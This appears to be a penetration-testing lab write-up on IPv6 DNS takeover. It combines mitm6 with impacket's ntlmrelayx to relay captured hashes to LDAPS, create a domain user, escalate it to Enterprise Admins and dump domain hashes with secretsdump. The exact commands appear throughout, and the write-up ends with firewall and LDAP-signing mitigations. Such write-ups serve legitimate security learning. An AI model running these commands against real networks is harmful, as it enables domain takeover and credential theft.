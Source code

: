 # What is IPv6?

IPv6, or Internet Protocol version 6, is the most recent version of the Internet Protocol (IP) that is used to identify and locate devices on a network. It is designed to succeed IPv4, which has been the predominant version of the IP for many years. 

# What is an IPv6 DNS Takeover Attack

In an IPv6 DNS Takeover attack, imagine trying to send a letter (data) to your friend and you instruct a mailman (DNS server) to deliver the letter to the right address. Now a thief (Attacker) intercepts the letter in transit and changes the destination address on the envelope (the DNS records), to their (the attacker) own address. This can happen because the attacker tricks the mailman (DNS server) into thinking the specified address is correct.

In a DNS takeover, the attacker typically exploits vulnerabilities in the DNS infrastructure or configuration to gain control over the DNS records associated with a domain. This enables the attacker to redirect traffic intended for a legitimate website or domain to a server under their control. Such actions can lead to various malicious activities, including phishing, malware distribution, or interception of sensitive information.

# Attack DEMO

**Tools needed to perform this attack:**

- ntlmrelayx - If you don't have kali linux, download this script https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py. Kali Linux comes preinstalled with impacket tools. You can start it up using the command `impacket-ntlmrelayx` or first of all locate the script using `locate ntlmrelayx` then specify the full path of the tool to start it:

![](attachments/20240305155204.png)

- mitm6 - Steps to install:
	-  git clone https://github.com/dirkjanm/mitm6.git
	- cd mitm6 
	- pip install -r requirements.txt
	- sudo python2 setup.py install
	- sudo mitm6 ✅

## Step 1: Start up ntlmrelayx and mitm6

ntlmrelayx:

![](attachments/20240304150525.png)
`impacket-ntlmrelayx -6 -t ldaps://DOMAIN-IP -wh fakewpad.DOMAIN.local -l loot`
The IP specified is the Domain IP address. The information dumped will be stored in a folder named loot.

mitm6:

![](attachments/20240304150712.png)

`sudo mitm6 -d DOMAIN.local`
Target Domain specified.

## Step 2: An Even Occurs in the Network

We need an event to trigger. For example, we can wait for a victim to restart their machine.
After an event is triggered, the victim's hash is captured and relayed to the Domain Controller to authenticate and information about the Domain is dumped

![](attachments/20240304151412.png)

Top is the **ntlmrelayx** and bottom is **mitm6**.

## Step 3: Inspect Loot

Information about the domain is dumped in the folder specified called `loot`

![](attachments/20240304151516.png)

Information is dumped in 3 different formats: JSON,HTML,GREP

![](attachments/20240304153934.png)

Now the event triggered was due to a system reboot which caused information about the domain to get dumped. What of an event like a user login was triggered instead?

## Another Event is triggered (Login)

A user logs in to a system as the Domain Administrator

![](attachments/20240304154232.png)

## Restart ntlmrelayx

After this event occurs, restart the ntlmrelayx and a Domain user will be automatically created.

![](attachments/20240304154510.png)
`username: OTCJytDYGp and password: Zf;vifJvQU56$cw`

Confirmation that the user was indeed created.

![](attachments/20240304154651.png)

Although this user is only a domain user.

![](attachments/20240304154723.png)

## Privilege Escalation

We can also escalate their privileges to **Domain Admin**:

![](attachments/20240304154822.png)

By adding `--escalate-user <username>` we can perform this action.

Next is to wait for another event to trigger and restart ntlmrelayx.

![](attachments/20240304155634.png)

This results in a successful Privilege Escalation of the user. The user has successfully been added to the Enterprise Admins Group.

![](attachments/20240304155816.png)
## Dumping Hashes

We can now dump hashes with our newly created user credentials

![](attachments/20240304161456.png)

`impacket-secretsdump -dc-ip DOMAIN-IP -just-dc DOMAIN.local/'username':'password'@DOMAIN-IP`

# Mitigation

**Mitigation Strategies:**

1. IPv6 poisoning abuses the fact that Windows queries for an IPv6 address even in IPv4 -only environments. If you do not use IPv6 internally, the safest way to prevent mitm6 is to block DHCPv6 traffic and incoming router advertisements in Windows Firewall via Group Policy. Disabling IPv6 entirely may have unwanted side effects. Setting the following predefined rules to Block instead of Allow prevents the attack from working:
	- (Inbound) Core Networking - Dynamic Host Configuration Protocol for IPv6(DHCPV6-In)
	- (Inbound) Core Networking - Router Advertisement (ICMPv6-In)
	- (Outbound) Core Networking - Dynamic Host Configuration Protocol for IPv6(DHCPV6-Out)

2. If WPAD is not in use internally, disable it via Group Policy and by disabling the WinHttpAutoProxySvc Service.

3. Relaying to LDAP and LDAPS can only be mitigated by enabling both LDAP signing and LDAP channel binding.

4. Consider Administrative users to the Protected Users group or marking them as Account is sensitive and cannot be delegated, which will prevent any impersonation of that user via delegation.

